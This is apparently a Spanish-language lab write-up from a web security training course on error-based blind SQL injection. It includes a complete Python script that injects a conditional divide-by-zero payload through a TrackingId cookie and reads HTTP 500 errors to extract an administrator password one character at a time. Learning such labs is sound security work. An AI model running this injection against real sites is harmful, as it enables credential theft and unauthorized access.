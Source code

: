 En esta clase continuamos con la explotación de la inyección SQL ciega basada en errores, utilizando las técnicas que vimos anteriormente para completar el proceso de extracción del password del administrador.

Aplicamos lo aprendido para automatizar la obtención de cada carácter de la contraseña utilizando Burp Intruder, apoyándonos en respuestas con error (código 500) para saber si el carácter probado es correcto. Se recorre así toda la cadena de forma sistemática.

Es una continuación directa de la clase anterior, donde verás en práctica cómo automatizar este tipo de ataque para obtener credenciales completas en entornos reales.

Solucion
Se pueden hacer los mismos pasos que la anterior laboratorio pero en este caso vamos a hacer un script para que automatize todo lo anterior
Esto en Burp suite obiamente ya con la intervencion de foxy proxy y ya haciendo los pasos de order by
![[Pasted image 20250703143528.png]]
codigo
![[Pasted image 20250703143230.png]]
![[Pasted image 20250703143151.png]]
lo llamaremos (Solo tenemos que modificar el trackingid, session y la url dando ctrl+shift+c nos vamos a storage o almacenamiento y ahi lo veremos todo)sqli.py
#!/usr/bin/env python3 

from pwn import *
from termcolor import colored 
import requests
import signal 
import sys
import string
import time

def def_handler(sig, frame):
    p1.failure("Ataque de fuerza bruta detenido") 
    print(colored(f"\n[!] saliendo...\n", 'red')) 
    sys.exit(1)

signal.signal(signal.SIGINT, def_handler)

characters = string.ascii_lowercase + string.digits 
p1 = log.progress("SQLI")

def makeSQLI():
    p1.status("Iniciando ataque de fuerza bruta")
    time.sleep(2)

    password = ""
    p2 = log.progress("Password")

    for position in range(1, 21):
        for character in characters:
            cookies = {
                "TrackingId": f"opTM41c5M3tdYiBB'||(select case when substr(password,{position},1)='{character}' then to_char(1/0) else'' end from users where username='administrator') ||'",
                "session": "eeBj0F3YK4uowytrMt8WtFXH7U4GcRVo"
            }

            p1.status(cookies["TrackingId"])

            r = requests.get("https://0aed008604509bf28095581100aa00eb.web-security-academy.net", cookies=cookies)

            if r.status_code == 500:
                password += character 
                p2.status(password)
                break

    p1.success("Ataque completado")
    print(colored(f"[+] Contraseña encontrada: {password}", 'green'))

if __name__ == '__main__':
    makeSQLI()

resultado
![[Pasted image 20250703152727.png]]
![[Pasted image 20250703152658.png]]
